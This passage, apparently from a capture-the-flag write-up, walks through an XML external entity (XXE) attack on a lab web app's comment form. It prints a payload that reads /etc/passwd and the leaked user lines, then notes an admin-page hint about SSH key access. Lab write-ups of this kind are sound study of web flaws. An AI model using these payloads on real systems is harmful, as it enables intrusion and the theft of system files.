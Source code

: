 ```text
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

And use the structure from above to create my own attack:

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

This works and I can see the contents of the passwd file:

![mustacchio-xxe](/assets/images/2021-06-12-17-41-33.png)

From that we can see two users:

```text
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash
```

Looking back at the adminpanel page source we see there is another comment at the bottom:

```text
    <!-- Barry, you can now SSH in using your key!-->
```
